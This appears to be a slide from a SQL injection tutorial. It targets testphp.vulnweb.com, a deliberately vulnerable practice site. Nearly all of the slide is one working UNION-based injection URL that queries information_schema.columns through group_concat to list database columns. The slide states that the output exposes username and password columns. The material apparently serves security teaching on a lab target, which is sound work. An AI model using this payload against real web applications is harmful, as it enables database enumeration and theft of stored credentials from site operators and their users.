

# INPUT AND RESULT
Use the query:

http://testphp.vulnweb.com/product.php?pic=-1 union select all 1,2,3,4,5,6,group_concat(column_name),8,9,10,11 from information_schema.columns where table_schema=database()--

Result: we get the columns which contain sensitive information like username and password.